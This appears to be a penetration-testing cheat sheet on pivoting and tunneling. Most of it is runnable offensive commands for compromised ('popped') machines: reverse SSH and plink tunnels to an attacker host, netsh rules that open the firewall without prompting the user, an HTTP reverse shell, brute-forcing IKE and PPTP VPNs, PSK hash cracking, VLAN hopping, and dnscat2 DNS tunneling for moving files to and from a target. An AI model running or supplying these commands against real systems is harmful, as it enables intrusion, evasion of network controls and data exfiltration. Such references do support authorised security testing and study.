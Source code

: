 - **Port Forwarding** - accept traffic on a given IP address and port and redirect it to a different IP address and port

apt-get install rinetd

cat /etc/rinetd.conf

\# bindadress bindport connectaddress connectport

w.x.y.z 53 a.b.c.d 80

- **SSH Local Port Forwarding**: supports bi-directional communication channels

ssh &lt;gateway&gt; -L &lt;local port to listen&gt;:&lt;remote host&gt;:&lt;remote port&gt;

- **SSH Remote Port Forwarding:** Suitable for popping a remote shell on an internal non routable network

ssh &lt;gateway&gt; -R &lt;remote port to bind&gt;:&lt;local host&gt;:&lt;local port&gt;

- **SSH Dynamic Port Forwarding**: create a SOCKS4 proxy on our local attacking box to tunnel ALL incoming traffic to ANY host in the DMZ network on ANY PORT

ssh -D &lt;local proxy port&gt; -p &lt;remote port&gt; &lt;target&gt;

- **Proxychains** - Perform nmap scan within a DMZ from an external computer

- Create reverse SSH tunnel from Popped machine on :2222

ssh -f -N -T -R22222:localhost:22 [yourpublichost.example.com](http://yourpublichost.example.com/)

ssh -f -N -R 2222:&lt;local host&gt;:22 root@&lt;remote host&gt;

- Create a Dynamic application-level port forward on 8080 thru 2222

ssh -f -N -D &lt;local host&gt;:8080 -p 2222 hax0r@&lt;remote host&gt;

  

- Leverage the SSH SOCKS server to perform Nmap scan on network using proxy chains

proxychains nmap --top-ports=20 -sT -Pn $ip/24

- **HTTP Tunneling**

        nc -vvn $ip 8888

------------------------------------------------------------------------

**Traffic Encapsulation** - Bypassing deep packet inspection

**http tunnel**
- On server side:

sudo hts -F &lt;server ip addr&gt;:&lt;port of your app&gt; 80

- On client side:

sudo htc -P &lt;my [proxy.com:proxy](http://proxy.com:proxy/) port&gt; -F &lt;port of your app&gt; &lt;server ip addr&gt;:80 stunnel

- **Tunnel Remote Desktop (RDP) from a Popped Windows machine to your network**

- Tunnel on port 22

plink -l root -pw pass -R 3389:&lt;localhost&gt;:3389 &lt;remote host&gt;

- Port 22 blocked? Try port 80? or 443?

plink -l root -pw 23847sd98sdf987sf98732 -R 3389:&lt;local host&gt;:3389 &lt;remote host&gt; -P80

- **Tunnel Remote Desktop (RDP) from a Popped Windows using HTTP Tunnel (bypass deep packet inspection)**

- Windows machine add required firewall rules without prompting the user

netsh advfirewall firewall add rule name="httptunnel\_client" dir=in action=allow program="httptunnel\_client.exe" enable=yes

netsh advfirewall firewall add rule name="3000" dir=in action=allow protocol=TCP localport=3000

netsh advfirewall firewall add rule name="1080" dir=in action=allow protocol=TCP localport=1080

netsh advfirewall firewall add rule name="1079" dir=in action=allow protocol=TCP localport=1079

- Start the http tunnel client

httptunnel\_client.exe

- Create HTTP reverse shell by connecting to localhost port 3000

plink -l root -pw 23847sd98sdf987sf98732 -R 3389:&lt;local host&gt;:3389 &lt;remote host&gt; -P 3000

- **VLAN Hopping**

git clone <https://github.com/nccgroup/vlan-hopping.git>

chmod 700 frogger.sh

./frogger.sh

- **VPN Hacking**

- Identify VPN servers:

./udp-protocol-scanner.pl -p ike $ip

- Scan a range for VPN servers:

./udp-protocol-scanner.pl -p ike -f ip.txt

- Use IKEForce to enumerate or dictionary attack VPN servers:

pip install pyip

git clone <https://github.com/SpiderLabs/ikeforce.git>

- Perform IKE VPN enumeration with IKEForce:

./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic

- Bruteforce IKE VPN using IKEForce:

./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1

- Use ike-scan to capture the PSK hash:

ike-scan

ike-scan TARGET-IP

ike-scan -A TARGET-IP

ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key

ike-scan –M –A –n example\\\_group -P hash-file.txt TARGET-I

- Use psk-crack to crack the PSK hash

psk-crack hash-file.txt

pskcrack

psk-crack -b 5 TARGET-IPkey

psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key

psk-crack -d /path/to/dictionary-file TARGET-IP-key

- **PPTP Hacking**

- Identifying PPTP, it listens on TCP: 1723 NMAP PPTP Fingerprint:

nmap –Pn -sV -p 1723 TARGET(S)

- PPTP Dictionary Attack

thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst

- **Port Forwarding/Redirection**

- PuTTY Link tunnel - SSH Tunneling

- Forward remote port to local address:

plink.exe -P 22 -l root -pw "1337" -R 445:&lt;local host&gt;:445 &lt;remote host&gt;

- **SSH Pivoting**

- SSH pivoting from one network to another:

ssh -D &lt;local host&gt;:1010 -p 22 user@&lt;remote host&gt;

- **DNS Tunneling**

- **dnscat2** supports “download” and “upload” commands for getting files (data and programs) to and from the target machine.

- Attacking Machine Installation:

apt-get update

apt-get -y install ruby-dev git make g++

gem install bundler

git clone <https://github.com/iagox86/dnscat2.git>

cd dnscat2/server

bundle instal

- Run dnscat2:

ruby ./dnscat2.rb

dnscat2&gt; New session established: 1422

dnscat2&gt; session -i 1422

- Target Machine:

  (<https://downloads.skullsecurity.org/dnscat2/>)

(<https://github.com/lukebaggett/dnscat2-powershell/>)

dnscat --host &lt;dnscat server ip&gt;


